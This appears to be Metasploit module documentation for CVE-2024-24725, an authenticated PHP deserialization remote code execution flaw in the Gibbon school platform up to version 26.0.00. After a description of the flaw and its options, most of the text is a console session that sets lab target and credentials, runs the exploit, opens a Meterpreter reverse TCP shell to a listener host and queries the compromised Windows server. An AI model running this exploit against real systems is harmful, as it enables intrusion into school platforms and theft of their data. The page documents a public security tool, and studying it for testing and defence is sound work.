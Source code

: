 ```msf

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                      address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  A Remote Code Execution vulnerability in Gibbon online school platform version 26.0.00 and lower
  allows remote authenticated users to conduct PHP deserialization attacks via columnOrder in a
  POST request to the endpoint `/modules/System%20Admin/import_run.php&type=externalAssessment&step=4`.
  As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
  potentially resulting in complete system compromise, data exfiltration, or unauthorized access
  to sensitive information.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-24725
  https://attackerkb.com/topics/ogKGAB44BP/cve-2024-24725
  https://packetstormsecurity.com/files/177635
  https://www.exploit-db.com/exploits/51903


View the full module info with the info -d command.
```
### Target 0 - PHP native `php/meterpreter/reverse_tcp` session
```shell
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set rport 80
rport => 80
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set ssl false
ssl => false
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set username cuckoo@clock.com
username => cuckoo@clock.com
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set password dingdong
password => dingdong
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set rhosts 192.168.201.4
rhosts => 192.168.201.4
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.4
[+] Deleted FaYSQoZdlBg.php
[*] Meterpreter session 5 opened (192.168.201.8:4444 -> 192.168.201.4:49958) at 2024-04-01 15:07:30 +0000

meterpreter > sysinfo
Computer    : WIN-BJDNH44EEDB
OS          : Windows NT WIN-BJDNH44EEDB 10.0 build 17763 (Windows Server 2016) AMD64
Meterpreter : php/windows
meterpreter > getuid
```